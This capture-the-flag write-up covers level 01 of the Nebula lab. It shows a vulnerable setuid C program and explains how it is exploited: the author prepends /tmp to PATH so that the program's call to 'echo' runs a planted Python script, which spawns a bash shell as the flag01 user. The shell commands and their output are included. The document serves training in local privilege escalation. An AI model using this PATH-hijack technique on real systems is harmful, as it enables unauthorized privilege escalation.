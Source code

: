 This level gives us some source code of the flag01 binary that we need to exploit.

Source Code:
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

The vulnerability here is that the system call is using a relative path to call the "echo" command. So to exploit this, I modify my PATH environment variable to put /tmp dir as the first directory searched. Then I created my own python script called echo, which will then be called by the flag01 binary.

```
level01@nebula:/home/flag01$ export PATH=/tmp:$PATH

level01@nebula:/home/flag01$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

flag01@nebula:/home/flag01$ cat /tmp/echo
#!/usr/bin/env python
import os

os.system('/bin/bash')

level01@nebula:/home/flag01$ ./flag01

flag01@nebula:/home/flag01$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)

flag01@nebula:/home/flag01$ getflag
You ave successfully executed getflag on a target account
```